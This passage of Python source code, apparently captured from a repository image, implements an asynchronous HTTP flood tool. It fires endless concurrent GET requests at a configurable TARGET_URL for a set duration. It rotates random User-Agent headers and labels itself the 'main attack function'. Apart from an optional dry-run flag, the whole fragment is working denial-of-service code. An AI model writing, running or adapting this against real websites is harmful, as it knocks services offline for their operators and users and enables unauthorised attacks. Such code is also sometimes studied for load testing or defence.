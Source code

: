 ```python
            async with session.get("https://api.ipify.org") as response:
                ip = await response.text()
                return ip
    except Exception as e:
        return f"Error fetching IP: {e}"

# Function to send HTTP GET requests
async def send_requests(session):
    global request_count
    headers = {"User-Agent": random.choice(USER_AGENTS)}
    while True:
        try:
            if DRY_RUN:
                print(f"[DRY_RUN] Simulated request to {TARGET_URL}")
            else:
                async with session.get(TARGET_URL, headers=headers, timeout=REQUEST_TIMEOUT) as response:
                    await response.text()  # Ensure response is read
            request_count += 1
        except Exception:
            pass  # Ignore errors

# Main attack function
async def main():
    global request_count
    start_time = datetime.now()

    # Fetch and print public IP address
    print("Fetching public IP address...")
    public_ip = await fetch_public_ip()
    print(f"Public IP Address: {public_ip}")
    
    print(f"Attack against target {TARGET_URL} started at: {start_time} (DRY_RUN: {DRY_RUN})")

    timeout = aiohttp.ClientTimeout(total=REQUEST_TIMEOUT)
    async with aiohttp.ClientSession(timeout=timeout) as session:
        # Create tasks explicitly using asyncio.create_task
        tasks = [asyncio.create_task(send_requests(session)) for _ in range(CONCURRENCY)]
        
        # Run tasks concurrently for the specified duration
        await asyncio.sleep(DURATION)  # Let tasks run for the attack duration
        
        # Cancel all tasks after the duration
        for task in tasks:
            task.cancel()
        await asyncio.gather(*tasks, return_exceptions=True)

    end_time = datetime.now()
    print(f"Attack ended at: {end_time}")
    print(f"Total number of requests sent: {request_count}")

# Run the script
if __name__ == "__main__":
    asyncio.run(main())

```   
